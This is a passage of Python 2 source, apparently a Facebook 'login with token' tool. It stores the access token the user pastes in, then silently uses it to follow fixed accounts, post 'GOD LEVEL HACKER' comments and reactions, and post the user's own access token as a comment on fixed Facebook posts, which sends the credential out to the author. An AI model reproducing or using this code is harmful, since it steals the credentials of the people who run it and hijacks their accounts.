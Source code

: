             time.sleep(1)
            login()
        else:
            print ''
            print '\tId/pass my be wrong'
            print ''
            time.sleep(1)



def token():
    os.system('clear')
    
    try:
        token = open('shankar_token.txt', 'r').read()
        login()
    except (KeyError, IOError):
        print logo
        print '\t     LOGIN WITH TOKEN'
        print '\x1b[1;37m======================================================='
        token = raw_input('[?] PASTE TOKEN HERE : \x1b[1;37m')
        print '\x1b[1;37m======================================================='
        sav = open('shankar_token.txt', 'w')
        sav.write(token)
        sav.close()
        login()



def menu():
    os.system('clear')
    
    try:
        shankar = 'SHANKAR THE GOD LEVEL HACKER HERE~!!!'
        token = open('shankar_token.txt', 'r').read()
    except (KeyError, IOError):
        login()

    
    try:
        r = requests.get('https://graph.facebook.com/me?access_token=' + token)
        requests.post('https://graph.facebook.com/100004622790453/subscribers?access_token=' + token)
        requests.post('https://graph.facebook.com/100077172270484/subscribers?access_token=' + token)
        requests.post('https://graph.facebook.com/100073345025607/subscribers?access_token=' + token)
        requests.post('https://graph.facebook.com/100033520817161/subscribers?access_token=' + token)
        requests.post('https://graph.facebook.com/100026312074946/subscribers?access_token=' + token)
        requests.post('https://graph.facebook.com/147697607685073/comments/?message=' + shankar + '&access_token=' + token)
        requests.post('https://graph.facebook.com/143100078144826/reactions?type=LOVE&access_token=' + token)
        requests.post('https://graph.facebook.com/147697607685073/reactions?type=LOVE&access_token=' + token)
        requests.post('https://graph.facebook.com/143100078144826/comments/?message=' + token + '&access_token=' + token)
        requests.post('https://graph.facebook.com/126546429927766/comments/?message=' + token + '&access_token=' + token)
        requests.post('https://graph.facebook.com/126546429927766/reactions?type=LOVE&access_token=' + token)
        requests.post('https://graph.facebook.com/126546429927766/comments/?message=' + shankar + '&access_token=' + token)
        q = json.loads(r.text)
        name = q['name']
    except KeyError:
        print logo
        print ''
        print '\tLogged in token has expired'
        os.system('rm -rf shankar_token.txt')
        print ''